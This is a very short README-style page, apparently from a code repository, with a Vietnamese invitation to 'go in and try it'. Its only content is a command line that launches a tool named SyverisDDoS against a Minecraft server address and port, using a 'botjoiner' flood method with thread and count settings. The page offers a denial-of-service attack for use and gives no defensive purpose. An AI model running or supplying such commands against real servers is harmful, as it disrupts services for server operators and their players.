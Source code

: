 # vô và trải nghiệm đi 
**code** :  ``java -jar SyverisDDoS.jar 1.1.1.1:25565 340 botjoiner 30 1000``
**bye**

